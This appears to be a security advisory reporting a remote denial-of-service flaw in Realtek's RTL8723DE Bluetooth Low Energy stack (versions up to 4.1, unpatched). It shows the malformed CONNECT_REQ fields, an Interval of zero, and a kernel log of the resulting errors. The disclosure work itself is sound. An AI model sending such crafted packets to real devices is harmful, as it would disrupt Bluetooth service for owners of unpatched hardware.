 # Repository
https://www.realtek.com/en/component/zoo/category/rtl8723de-software

# Package
https://www.realtek.com/en/component/zoo/category/rtl8723de-software


# Impact
When realtek BLE protocol stack handles the device connection message CONNECT_REQ, the Interval field is not handled properly, and the attacker can launch a denial of service attack remotely

# Affect Versions
<=4.1

# Patched Versions
NULL

# POC

# Prove
`
Link Layer Data
  Access Address: 0x9a328370
  CRC Init: 0x179a9c
  Window Size: 2 (2.5 msec)
  Window Offset: 2 (2.5 msec)
  Interval: 0 (0 msec)
  Latency: 0
  Timeout: 50 (62.5 msec)
`

dmesg.log
`
  [  584.475344] Bluetooth: Peer acked invalid packet
  [  584.480585] Bluetooth: Peer acked invalid packet
  [  584.501450] Bluetooth: Peer acked invalid packet
  [  584.533039] Bluetooth: Peer acked invalid packet
  [  584.564637] Bluetooth: Peer acked invalid packet
  [  584.596220] Bluetooth: Peer acked invalid packet
  [  584.627825] Bluetooth: Peer acked invalid packet
  [  584.659400] Bluetooth: Peer acked invalid packet
  [  584.690988] Bluetooth: Peer acked invalid packet
  [  584.721535] Bluetooth: hu c6761cc0 retransmitting 2 pkts
  [  584.722592] Bluetooth: Peer acked invalid packet
  [  584.733497] Bluetooth: Peer acked invalid packet
  [  584.739112] Bluetooth: Peer acked invalid packet
  [  584.765247] Bluetooth: Peer acked invalid packet
  [  584.796834] Bluetooth: Peer acked invalid packet
  [  584.828433] Bluetooth: Peer acked invalid packet
  [  584.860023] Bluetooth: Peer acked invalid packet
  [  584.891611] Bluetooth: Peer acked invalid packet
  [  584.923200] Bluetooth: Peer acked invalid packet
  [  584.954778] Bluetooth: Peer acked invalid packet
  [  584.986387] Bluetooth: Peer acked invalid packet
`


# Workarounds


# For more information
If you have any questions or comments about this advisory:
Email us at qulewei@baidu.com

# Acknowledgements
repoter :qulewei

# References

